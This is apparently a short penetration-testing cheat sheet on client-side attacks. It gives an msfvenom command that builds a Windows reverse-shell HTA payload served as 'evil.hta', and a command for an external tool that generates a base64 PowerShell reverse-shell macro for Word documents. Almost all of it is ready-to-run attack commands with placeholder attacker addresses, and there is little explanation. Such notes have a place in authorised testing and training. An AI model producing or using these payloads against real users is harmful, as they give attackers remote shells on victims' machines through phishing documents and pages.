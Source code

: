 ## Client-Side Attacks
### HTA Attack in Action

-> Get web browser name, operating system, device type  
https://explore.whatismybrowser.com/useragents/parse/#parse-useragent

-> Creating a malicious .hta with msfvenom
```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o /var/www/html/evil.hta
```

### Microsoft Word Macro Attack
-> Generate a malicious macro for reverse shell in powershell using base64 for .doc
```
python evil_macro.py -l <ip> -p <port> -o macro.txt
```
https://github.com/rodolfomarianocy/Evil-Macro/
